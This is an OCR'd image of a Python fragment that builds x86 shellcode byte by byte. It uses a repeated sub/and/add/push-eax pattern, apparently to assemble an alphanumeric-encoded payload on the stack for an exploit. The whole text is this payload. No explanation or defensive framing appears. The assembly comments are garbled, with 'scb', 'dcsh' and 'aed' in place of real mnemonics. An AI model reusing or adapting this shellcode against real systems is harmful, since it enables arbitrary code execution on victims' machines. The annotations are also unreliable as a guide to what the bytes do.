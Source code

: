 ```python
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x04\x32\x55\x56" ## add  eax, 0x56553204
shellcode += "\x05\x04\x32\x45\x45" ## add  eax, 0x45453204
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x41\x64\x67\x44" ## add  eax, 0x44676441
shellcode += "\x05\x41\x54\x56\x44" ## add  eax, 0x44565441
shellcode += "\x05\x31\x34\x45\x44" ## add  eax, 0x44453431
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x37\x72\x36\x54" ## add  eax, 0x54367237
shellcode += "\x05\x36\x61\x26\x44" ## add  eax, 0x44266136
shellcode += "\x05\x35\x52\x24\x43" ## add  eax, 0x43245235
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x67\x16\x43\x66" ## add  eax, 0x66431667
shellcode += "\x05\x56\x15\x43\x55" ## add  eax, 0x55431556
shellcode += "\x05\x45\x14\x43\x63" ## add  eax, 0x63431445
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x14\x74\x66\x73" ## add  eax, 0x73667414
shellcode += "\x05\x13\x64\x56\x63" ## add  eax, 0x63566413
shellcode += "\x05\x13\x53\x64\x52" ## add  eax, 0x52645313
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x57\x67\x71\x24" ## add  eax, 0x24716757
shellcode += "\x05\x57\x56\x61\x14" ## add  eax, 0x14615657
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x31\x66\x15\x45" ## add  eax, 0x45156631
shellcode += "\x05\x31\x65\x15\x44" ## add  eax, 0x44156531
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x04\x64\x16\x42" ## add  eax, 0x42166404
shellcode += "\x05\x04\x64\x16\x42" ## add  eax, 0x42166404
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x32\x16\x64\x71" ## add  eax, 0x71641632
shellcode += "\x05\x32\x25\x54\x61" ## add  eax, 0x61542532
shellcode += "\x05\x22\x16\x33\x51" ## add  eax, 0x51331622
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x74\x57\x66\x23" ## add  eax, 0x23665774
shellcode += "\x05\x64\x46\x55\x13" ## add  eax, 0x13554664
shellcode += "\x05\x54\x45\x46\x23" ## add  eax, 0x23464554
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
```